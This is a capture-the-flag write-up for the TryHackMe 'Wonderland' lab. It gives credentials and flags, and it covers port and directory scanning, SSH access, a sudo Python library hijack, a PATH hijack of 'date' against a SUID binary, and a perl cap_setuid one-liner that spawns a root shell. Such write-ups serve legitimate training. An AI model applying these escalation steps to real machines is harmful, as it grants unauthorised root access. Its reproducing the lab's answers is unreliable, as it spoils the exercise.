

# Wonderland

# Credentials

```bash
alice:HowDothTheLittleCrocodileImproveHisShiningTail
hatter:WhyIsARavenLikeAWritingDesk?
```

## Nmap

```bash
┌──(ajay㉿ajay)-[~/tryhackme/medium/wonderland]
└─$ naabu -host 10.201.49.98 -silent  -nmap-cli "-A" 
10.201.49.98:80
10.201.49.98:22
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-03 08:28 CST
Nmap scan report for 10.201.49.98
Host is up (0.25s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 (99%), Android 9 - 10 (Linux 4.9 - 4.14) (96%), Linux 3.2 - 4.14 (96%), Linux 4.15 - 5.19 (96%), Linux 2.6.32 - 3.10 (96%), Linux 5.4 (95%), Linux 2.6.32 - 3.5 (94%), Linux 2.6.32 - 3.13 (94%), Android 10 - 12 (Linux 4.14 - 4.19) (93%), Adtran 424RG FTTH gateway (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 5 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   93.76 ms  10.17.0.1
2   ... 4
5   225.95 ms 10.201.49.98

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.96 seconds

```




### file type

```bash
┌──(ajay㉿ajay)-[~/tryhackme/medium/wonderland]
└─$ ls
alice_door.jpg  alice_door.png  white_rabbit_1.jpg
                                                                                                                                                                                                                                                                                                                         
┌──(ajay㉿ajay)-[~/tryhackme/medium/wonderland]
└─$ file alice_door.jpg 
alice_door.jpg: JPEG image data, JFIF standard 1.02, resolution (DPI), density 600x600, 
segment length 16, Exif Standard: [TIFF image data, big-endian, direntries=7, orientation
=upper-left, xresolution=98, yresolution=106, resolutionunit=2, software=Adobe Photoshop 
CS3 Macintosh, datetime=2008:01:20 01:49:10], progressive, precision 8, 1962x1942, 
components 3
                                                                                                                                                             
┌──(ajay㉿ajay)-[~/tryhackme/medium/wonderland]
└─$ file alice_door.png 
alice_door.png: PNG image data, 1962 x 1942, 8-bit/color RGBA, non-interlaced
                                                                                                                                                             
┌──(ajay㉿ajay)-[~/tryhackme/medium/wonderland]
└─$ file white_rabbit_1.jpg 
white_rabbit_1.jpg: JPEG image data, JFIF standard 1.01, resolution (DPI), density 
594x594, segment length 16, baseline, precision 8, 1102x1565, components 3
                                                                                                                                                             
```

## Gobuster

```bash
┌──(ajay㉿ajay)-[~/tryhackme/medium/wonderland]
└─$ gobuster dir -u wonderland.thm/ -w /usr/share/wordlists/dirb/common.txt -t 50  
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://wonderland.thm/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 301) [Size: 0] [--> ./]
/img                  (Status: 301) [Size: 0] [--> img/]
/r                    (Status: 301) [Size: 0] [--> r/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================

```


```bash
┌──(ajay㉿ajay)-[~/tryhackme/medium/wonderland]
└─$ gobuster dir -u wonderland.thm/r/ -w /usr/share/wordlists/dirb/small.txt -t 50 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://wonderland.thm/r/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirb/small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/a                    (Status: 301) [Size: 0] [--> a/]
Progress: 959 / 960 (99.90%)
===============================================================
Finished
===============================================================

```


## SSH

```bash
┌──(ajay㉿ajay)-[~/tryhackme/medium/wonderland]
└─$ ssh alice@wonderland.thm
alice@wonderland.thm's password: 
Permission denied, please try again.
alice@wonderland.thm's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Nov  3 14:49:04 UTC 2025

  System load:  0.08               Processes:           89
  Usage of /:   18.9% of 19.56GB   Users logged in:     0
  Memory usage: 29%                IP address for ens5: 10.201.49.98
  Swap usage:   0%

0 packages can be updated.
0 updates are security updates.

Last login: Mon May 25 16:37:21 2020 from 192.168.170.1
alice@wonderland:~$ ls
root.txt  walrus_and_the_carpenter.py
alice@wonderland:~$ ls -la
total 40
drwxr-xr-x 5 alice alice 4096 May 25  2020 .
drwxr-xr-x 6 root  root  4096 May 25  2020 ..
lrwxrwxrwx 1 root  root     9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 alice alice  220 May 25  2020 .bash_logout
-rw-r--r-- 1 alice alice 3771 May 25  2020 .bashrc
drwx------ 2 alice alice 4096 May 25  2020 .cache
drwx------ 3 alice alice 4096 May 25  2020 .gnupg
drwxrwxr-x 3 alice alice 4096 May 25  2020 .local
-rw-r--r-- 1 alice alice  807 May 25  2020 .profile
-rw------- 1 root  root    66 May 25  2020 root.txt
-rw-r--r-- 1 root  root  3577 May 25  2020 walrus_and_the_carpenter.py
alice@wonderland:~$ whoami
alice
alice@wonderland:~$ id
uid=1001(alice) gid=1001(alice) groups=1001(alice)

```

## User Flag

```bash
alice@wonderland:~$ cat root.txt 
cat: root.txt: Permission denied
alice@wonderland:~$ python

Command 'python' not found, but can be installed with:

apt install python3       
apt install python        
apt install python-minimal

Ask your administrator to install one of them.

You also have python3 installed, you can run 'python3' instead.

alice@wonderland:~$ python3 walrus_and_the_carpenter.py 
The line was:    And why the sea is boiling hot —
The line was:    "Cut us another slice:
The line was:    The Carpenter said nothing but
The line was:    Meaning to say he did not choose
The line was:    The Walrus and the Carpenter
The line was:    We cannot do with more than four,
The line was:    Their shoes were clean and neat —
The line was:    Along the briny beach:
The line was:    And yet another four;
The line was:    Of cabbages — and kings —
alice@wonderland:~$ cat walrus_and_the_carpenter.py 
import random
poem = """The sun was shining on the sea,
Shining with all his might:
He did his very best to make
The billows smooth and bright —
And this was odd, because it was
The middle of the night.

The moon was shining sulkily,
Because she thought the sun
Had got no business to be there
After the day was done —
"It’s very rude of him," she said,
"To come and spoil the fun!"

The sea was wet as wet could be,
The sands were dry as dry.
You could not see a cloud, because
No cloud was in the sky:
No birds were flying over head —
There were no birds to fly.

The Walrus and the Carpenter
Were walking close at hand;
They wept like anything to see
Such quantities of sand:
"If this were only cleared away,"
They said, "it would be grand!"

"If seven maids with seven mops
Swept it for half a year,
Do you suppose," the Walrus said,
"That they could get it clear?"
"I doubt it," said the Carpenter,
And shed a bitter tear.

"O Oysters, come and walk with us!"
The Walrus did beseech.
"A pleasant walk, a pleasant talk,
Along the briny beach:
We cannot do with more than four,
To give a hand to each."

The eldest Oyster looked at him.
But never a word he said:
The eldest Oyster winked his eye,
And shook his heavy head —
Meaning to say he did not choose
To leave the oyster-bed.

But four young oysters hurried up,
All eager for the treat:
Their coats were brushed, their faces washed,
Their shoes were clean and neat —
And this was odd, because, you know,
They hadn’t any feet.

Four other Oysters followed them,
And yet another four;
And thick and fast they came at last,
And more, and more, and more —
All hopping through the frothy waves,
And scrambling to the shore.

The Walrus and the Carpenter
Walked on a mile or so,
And then they rested on a rock
Conveniently low:
And all the little Oysters stood
And waited in a row.

"The time has come," the Walrus said,
"To talk of many things:
Of shoes — and ships — and sealing-wax —
Of cabbages — and kings —
And why the sea is boiling hot —
And whether pigs have wings."

"But wait a bit," the Oysters cried,
"Before we have our chat;
For some of us are out of breath,
And all of us are fat!"
"No hurry!" said the Carpenter.
They thanked him much for that.

"A loaf of bread," the Walrus said,
"Is what we chiefly need:
Pepper and vinegar besides
Are very good indeed —
Now if you’re ready Oysters dear,
We can begin to feed."

"But not on us!" the Oysters cried,
Turning a little blue,
"After such kindness, that would be
A dismal thing to do!"
"The night is fine," the Walrus said
"Do you admire the view?

"It was so kind of you to come!
And you are very nice!"
The Carpenter said nothing but
"Cut us another slice:
I wish you were not quite so deaf —
I’ve had to ask you twice!"

"It seems a shame," the Walrus said,
"To play them such a trick,
After we’ve brought them out so far,
And made them trot so quick!"
The Carpenter said nothing but
"The butter’s spread too thick!"

"I weep for you," the Walrus said.
"I deeply sympathize."
With sobs and tears he sorted out
Those of the largest size.
Holding his pocket handkerchief
Before his streaming eyes.

"O Oysters," said the Carpenter.
"You’ve had a pleasant run!
Shall we be trotting home again?"
But answer came there none —
And that was scarcely odd, because
They’d eaten every one."""

for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```

```bash
alice@wonderland:~$ cd ..
alice@wonderland:/home$ ls
alice  hatter  rabbit  tryhackme
alice@wonderland:/home$ cd hatter/
-bash: cd: hatter/: Permission denied
alice@wonderland:/home$ cd rabbit/
-bash: cd: rabbit/: Permission denied
alice@wonderland:/home$ cd tryhackme/
-bash: cd: tryhackme/: Permission denied
```


```bash
alice@wonderland:~$ ls /root
ls: cannot open directory '/root': Permission denied
alice@wonderland:~$ cat /root/user.txt
thm{"Curiouser and curiouser!"}
```

## Privesc 😢😒😒😒😒

```bash
alice@wonderland:~$ sudo -l
[sudo] password for alice: 
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
alice@wonderland:~$ nano random.py
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$ cd ..
rabbit@wonderland:/home$ cd rabbit/
rabbit@wonderland:/home/rabbit$ ls
teaParty
rabbit@wonderland:/home/rabbit$ ls -la
total 40
drwxr-x--- 2 rabbit rabbit  4096 May 25  2020 .
drwxr-xr-x 6 root   root    4096 May 25  2020 ..
lrwxrwxrwx 1 root   root       9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 rabbit rabbit   220 May 25  2020 .bash_logout
-rw-r--r-- 1 rabbit rabbit  3771 May 25  2020 .bashrc
-rw-r--r-- 1 rabbit rabbit   807 May 25  2020 .profile
-rwsr-sr-x 1 root   root   16816 May 25  2020 teaParty
rabbit@wonderland:/home/rabbit$ sudo -l
[sudo] password for rabbit: 
^Csudo: 1 incorrect password attempt
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Mon, 03 Nov 2025 17:22:50 +0000
Ask very nicely, and I will give you some tea while you wait for him
please
Segmentation fault (core dumped)
rabbit@wonderland:/home/rabbit$ ls
teaParty
rabbit@wonderland:/home/rabbit$ ls -la
total 40
drwxr-x--- 2 rabbit rabbit  4096 May 25  2020 .
drwxr-xr-x 6 root   root    4096 May 25  2020 ..
lrwxrwxrwx 1 root   root       9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 rabbit rabbit   220 May 25  2020 .bash_logout
-rw-r--r-- 1 rabbit rabbit  3771 May 25  2020 .bashrc
-rw-r--r-- 1 rabbit rabbit   807 May 25  2020 .profile
-rwsr-sr-x 1 root   root   16816 May 25  2020 teaParty
rabbit@wonderland:/home/rabbit$ cat date
cat: date: No such file or directory
rabbit@wonderland:/home/rabbit$ nano date 
Unable to create directory /home/alice/.local/share/nano/: Permission denied
It is required for saving/loading search history or cursor positions.

Press Enter to continue

rabbit@wonderland:/home/rabbit$ cat date
#!/bin/bash
/bin/bash
rabbit@wonderland:/home/rabbit$ chmod +x date
rabbit@wonderland:/home/rabbit$ export PATH=/home/rabbit:$PATH
rabbit@wonderland:/home/rabbit$ echo $PATH
/home/rabbit:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ 
hatter@wonderland:/home/rabbit$ ls
date  teaParty
hatter@wonderland:/home/rabbit$ cat /home/alice/root.txt
cat: /home/alice/root.txt: Permission denied
hatter@wonderland:/home/rabbit$ id
uid=1003(hatter) gid=1002(rabbit) groups=1002(rabbit)
hatter@wonderland:/home/rabbit$ cd ..
hatter@wonderland:/home$ ls
alice  hatter  rabbit  tryhackme
hatter@wonderland:/home$ cd hatter
hatter@wonderland:/home/hatter$ ls
password.txt
hatter@wonderland:/home/hatter$ cat password.txt 
WhyIsARavenLikeAWritingDesk?
```

```bash
──(ajay㉿ajay)-[~/tryhackme/medium/wonderland]
└─$ ssh hatter@wonderland.thm
hatter@wonderland.thm's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Nov  3 16:44:33 UTC 2025

  System load:  0.0                Processes:           89
  Usage of /:   18.9% of 19.56GB   Users logged in:     0
  Memory usage: 36%                IP address for ens5: 10.48.141.49
  Swap usage:   0%

0 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

hatter@wonderland:~$ ls
linpeas.sh  password.txt
hatter@wonderland:~$ ./linpeas.sh 

                            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
                    ▄▄▄▄▄▄▄             ▄▄▄▄▄▄▄▄
             ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄
         ▄▄▄▄     ▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄
         ▄    ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄          ▄▄▄▄▄▄               ▄▄▄▄▄▄ ▄
         ▄▄▄▄▄▄              ▄▄▄▄▄▄▄▄                 ▄▄▄▄ 
         ▄▄                  ▄▄▄ ▄▄▄▄▄                  ▄▄▄
         ▄▄                ▄▄▄▄▄▄▄▄▄▄▄▄                  ▄▄
         ▄            ▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄   ▄▄
         ▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄                                ▄▄▄▄
         ▄▄▄▄▄  ▄▄▄▄▄                       ▄▄▄▄▄▄     ▄▄▄▄
         ▄▄▄▄   ▄▄▄▄▄                       ▄▄▄▄▄      ▄ ▄▄
         ▄▄▄▄▄  ▄▄▄▄▄        ▄▄▄▄▄▄▄        ▄▄▄▄▄     ▄▄▄▄▄
         ▄▄▄▄▄▄  ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄   ▄▄▄▄▄ 
          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄        ▄          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ 
         ▄▄▄▄▄▄▄▄▄▄▄▄▄                       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄                         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
          ▀▀▄▄▄   ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄▄▀▀▀▀▀▀
               ▀▀▀▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▀▀
                     ▀▀▀▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▀▀▀

    /---------------------------------------------------------------------------------\
    |                             Do you like PEASS?                                  |                                                                      
    |---------------------------------------------------------------------------------|                                                                      
    |         Learn Cloud Hacking       :     https://training.hacktricks.xyz         |                                                                      
    |         Follow on Twitter         :     @hacktricks_live                        |                                                                      
    |         Respect on HTB            :     SirBroccoli                             |                                                                      
    |---------------------------------------------------------------------------------|                                                                      
    |                                 Thank you!                                      |                                                                      
    \---------------------------------------------------------------------------------/                                                                      
          LinPEAS-ng by carlospolop                                                                                                                          
                                                                                                                                                             
ADVISORY: This script should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own computers and/or with the computer owner's permission.                                
                                                                                                                                                             
Linux Privesc Checklist: https://book.hacktricks.wiki/en/linux-hardening/linux-privilege-escalation-checklist.html
 LEGEND:                                                                                                                                                     
  RED/YELLOW: 95% a PE vector
  RED: You should take a look to it
  LightCyan: Users with console
  Blue: Users without console & mounted devs
  Green: Common things (users, groups, SUID/SGID, mounts, .sh scripts, cronjobs) 
  LightMagenta: Your username

 Starting LinPEAS. Caching Writable Folders...
                               ╔═══════════════════╗
═══════════════════════════════╣ Basic information ╠═══════════════════════════════                                                                          
                               ╚═══════════════════╝                                                                                                         
OS: Linux version 4.15.0-101-generic (buildd@lgw01-amd64-003) (gcc version 7.5.0 (Ubuntu 7.5.0-3ubuntu1~18.04)) #102-Ubuntu SMP Mon May 11 10:07:26 UTC 2020
User & Groups: uid=1003(hatter) gid=1003(hatter) groups=1003(hatter)
Hostname: wonderland

[+] /bin/ping is available for network discovery (LinPEAS can discover hosts, learn more with -h)
[+] /bin/bash is available for network discovery, port scanning and port forwarding (LinPEAS can discover hosts, scan ports, and forward ports. Learn more with -h)                                                                                                                                                       
[+] /bin/nc is available for network discovery & port scanning (LinPEAS can discover hosts and scan ports, learn more with -h)                               
                                                                                                                                                             

Caching directories . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . DONE
                                                                                               
```

```bash

Files with capabilities (limited to 50):
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep

```

### Root

```bash

hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# ls -la
total 980
drwxr-x--- 6 hatter hatter   4096 Nov  3 16:45 .
drwxr-xr-x 6 root   root     4096 May 25  2020 ..
lrwxrwxrwx 1 root   root        9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 hatter hatter    220 May 25  2020 .bash_logout
-rw-r--r-- 1 hatter hatter   3771 May 25  2020 .bashrc
drwx------ 2 hatter hatter   4096 Nov  3 16:44 .cache
drwxr-x--- 3 hatter hatter   4096 Nov  3 16:45 .config
drwx------ 3 hatter hatter   4096 Nov  3 16:45 .gnupg
drwxrwxr-x 3 hatter hatter   4096 May 25  2020 .local
-rw-r--r-- 1 hatter hatter    807 May 25  2020 .profile
-rwxr-xr-x 1 hatter rabbit 961834 Oct  1 04:36 linpeas.sh
-rw------- 1 hatter hatter     29 May 25  2020 password.txt
# cd ..
# ls
alice  hatter  rabbit  tryhackme
# cd alice
# ls
random.py  root.txt  walrus_and_the_carpenter.py
# cat root.txt
thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}

```